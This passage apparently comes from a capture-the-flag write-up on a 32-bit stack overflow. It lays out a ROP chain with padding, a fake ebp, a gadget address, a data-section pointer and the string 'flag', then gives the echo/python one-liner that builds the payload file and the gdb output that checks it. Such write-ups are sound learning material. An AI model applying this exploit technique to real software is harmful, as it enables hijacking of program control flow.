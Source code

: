 ```c
edi = // <address in data section>
ebp = "flag"
*edi = ebp = "flag"
```

# Stack 1

So let's set up the stack accordingly:

	A's                                     40B
	_______________________________________
	fake ebp
	 = BBBB                                  4B
	_______________________________________
	eip  
 	 = address of ROP gadget
	 = &ROP gadget ("&" = "address of")	
	 = 0x080485aa
	 = "\xaa\x85\x04\x08"
	_______________________________________
	edi 
	 = &data
	 = 0x0804a018
	 = "\x18\xa0\x04\x08"
	_______________________________________
	ebp 
	 = "flag"
	_______________________________________
	eip = &uG
	 = 0x08048543 
	 = "\x43\x85\x04\x08"
	________________________________________
	eip = whatever
	 = cccc 
	_______________________________________
	

I set this up in a .txt file using `echo -e`... This helps me have more granular control over the values that I am passing into the program. Also, I am a n00b.


Me using echo -e:

```sh
$ echo -e "`python3 -c "print('a'*40+'b'*4)"`\xaa\x85\x04\x08\x18\xa0\x04\x08galf\x43\x85\x04\x08cccc" > input
```


Let's run it in gdb and see if our values are correct:

```sh
gef➤  i r edi
edi            0x804a018           0x804a018
gef➤  x/wx $edi
0x804a018:	0x67616c66
gef➤  x/s $edi
0x804a018:	"flag"
```
	